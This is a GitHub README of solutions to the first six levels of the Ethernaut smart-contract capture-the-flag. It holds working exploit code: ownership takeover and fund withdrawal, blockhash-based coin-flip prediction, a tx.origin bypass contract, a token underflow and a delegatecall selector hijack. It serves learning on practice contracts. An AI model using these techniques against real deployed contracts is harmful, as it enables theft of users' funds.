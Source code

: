# ethernaut-ctf-solutions

<details>
    <summary>Level 1 - Fallback</summary>

```javascript
// first need to send some ether to contribute():
await contract.contribute({value: toWei("0.0001")})

// then send some raw ether, the fallback function will make us the owner
sendTransaction({from: player, to: instance, value: toWei("0.0001")})

// are we the owner yet?
await contract.owner() == player

// now that we're the owner, we can siphon the funds
await contract.withdraw()

// and double check that the contract has a balance of 0:
await getBalance(instance)
```

</details>

 <details>
    <summary>Level 2 - Fallout</summary>
    
```javascript
 /* constructor */
  function Fal1out() public payable    // <--- typo makes it not actually a constructor

// so just call this and you're the owner
await contract.Fal1out()
```

</details> 

 <details>
    <summary>Level 3 - Coin flip</summary>

Deploy this guesser contract, using e.g. Remix IDE:

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipGuess {
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip instance = CoinFlip(address(...));

  function guess() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    bool coinFlip = blockValue > FACTOR;
    require(instance.flip(coinFlip));
  }
}
```

Then repeatedly invoke the guess() function, calls will only go through when we know they will succeed in the `CoinFlip` contract.

</details> 

 <details>
    <summary>Level 4 - Telephone</summary>

Deploy this and call `ring_ring()`, we just need a smart contract to act as a buffer so that `msg.sender != tx.origin`. See also [rekt - THORChain](https://rekt.news/thorchain-rekt2/)

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
  function changeOwner(address _owner) external;
}

contract CallMeMaybe {
    Telephone instance = Telephone(address(...));
    
    function ring_ring() public {
        instance.changeOwner(msg.sender);
    }
}
```

</details> 

 <details>
    <summary>Level 5 - Token</summary>
    
```javascript
// trigger an underflow by transferring >20 tokens to any address
await contract.transfer("0xd4F3ae2100b186D5e8e0E41d7930bE7B3a3e9E6C", 100)
```

</details> 

 <details>
    <summary>Level 6 - Delegation</summary>
    
```javascript
// we want to hit the fallback function of the delegator, and pass it the selector of the pwn() function so that it invokes pwn() on the delegate

contract.sendTransaction({
    to: instance, 
    data: web3.eth.abi.encodeFunctionSignature("pwn()")
})

```

</details> 